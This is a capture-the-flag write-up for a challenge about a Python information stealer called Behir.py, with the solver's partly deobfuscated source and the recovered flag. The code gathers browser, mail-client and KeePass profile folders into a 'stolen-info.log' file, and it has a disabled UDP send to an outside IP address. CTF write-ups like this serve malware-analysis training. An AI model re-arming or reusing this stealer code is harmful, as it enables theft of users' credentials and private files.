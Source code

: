 #### Challenge:

The information stealer Behir.py ate everything - including the flag. It should be somewhere in the malware. Be careful though, it's still a dangerous monster.

*Important note: In its default state, the script is "defanged" and shouldn't exfiltrate any stolen information. However, this can easily be changed and you may accidentally harm your computer while solving the challenge. PLEASE make sure that you run this malware in a virtual machine/isolated lab/sandboxed enviornment. The sample file is stored in an encrypted zip with the password "infected". I am not responsible if your sensitive information is stolen.

[behir_py.zip](./behir_py.zip ":ignore")

---

#### Solution:

We are given obfuscated python code. After manual inspection and removal of some useless bogus functions, I was able to edit it to the point where it prints the flag.

```python
tressym = "fa86075165f2630ff80397bf98323716"
lightning = [".chrom"]
adventure = '/'

import os
import subprocess
import socket
import hashlib
import time


def main():
    ranger = int(time.time())
    ## Removed this to be able to run
    # if(str(hashlib.md5(open(__file__, "rb").read()[43:]).hexdigest()) == tressym):
    ether = -1
    crawlingclaw = "who" + "ima"[::ether]
    ether = ether + 1
    owlbear = os.popen(crawlingclaw).read().split('\n')[ether]
    lightning[ether] = lightning[ether] + "iu" + lightning[ether][ether -1] + adventure
    pi = "PI.3.14159265"
    yeti = "pass"
    ether = ether + 1
    ancestral = makesoul(yeti)
    arcane = "_info.log"
    ancestral[ether] = chr(123) + 'n' + makesoul(yeti)[ether].split('n')[ether]
    gold = "stolen" + arcane
    ancestral[ether] = 'w' + pi.split('.')[ether - ether] + ancestral[ether]
    gold = gold.replace('_', '-')
    for torrent in ancestral:
        lightning.append(torrent)
    ether = ether - ether
    lightning.append(".kee" + yeti + '2' + adventure)
    for fire in range(len(lightning)):
        lightning[fire] = lightning[fire].replace('_', '-')
        lightning[fire] = lightning[fire].replace('w', 'W')
    bludgeoning = int(time.time())

    ## Added this to print FLAG
    print(lightning)

    if(bludgeoning - ranger <= 2):
        evocation = len(lightning)
        for castle in range(evocation): #Ya the ".keepass2/" one is ambitious... but I have seen malware do this
            
            ## Removed this because useless
            # devour(lightning[castle], owlbear, gold)
            pass
        
        for aboleth in range(evocation):
            lightning.pop(ether)

        ## Removed this because useless
        # circle("WPI")


def devour(poison, gods, tome):
    ether = -1
    if(poison[ether] == adventure):
        cat = "cat"
        buckler = adventure + "home" + adventure + gods + adventure + poison
        lightning.append(bytes(buckler, "ascii"))
        acid = "find " + buckler + " -type f -exec " + cat + " {} + > " + tome
        os.system(acid)
        spell = open(tome, "rb")
        ate = spell.read()
        spell.close()
        lightning.append(ate)


def circle(viciousMockery):
    roc = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    for elf in lightning:
        drow = bytes('0', "ascii") #I remove the data, but you REALLY should run this in a sandboxed environment
        
        ## Removed this because useless 
        # roc.sendto(drow, ("158.58.184.213", 1337)) #this is not a nice IP, be careful what you send here


def makesoul(orb):
    soul = []
    litch = soulMore(orb)
    soul.append(litch)
    soul.append(soul[0].lower())
    litch = swords()
    soul[0] = litch + "Ice" + "weasel"
    soul[0] = soul[0] + adventure
    soul[1] = soul[1] + chr(125)
    soul.append(litch + "Thunder" + "bird" + adventure)
    return soul


def soulMore(craft):
    ether = 0
    vampire = ""
    eldritch = ["auto", "fill", craft, "word"]
    eldritch[ether] = eldritch[ether] + eldritch[ether + 1]
    ether = ether + 1
    eldritch[ether] = eldritch[ether + ether] + eldritch[ether + ether + ether]
    eldritch[len(eldritch) - ether] = "NEVER"
    eldritch[len(eldritch) - 2] = "use"
    eldritch = eldritch[::-1]
    for martial in eldritch:
        vampire = vampire + '_'
        vampire = vampire + martial
    return vampire


def swords():
    ether = -1
    return chr(46) + lightning[ether + 1][4:6][::ether] + "zilla" + adventure



main()
```

---

<details><summary>FLAG:</summary>

```
WPI{never-use-passWord-autofill}
```

</details>
<br/>
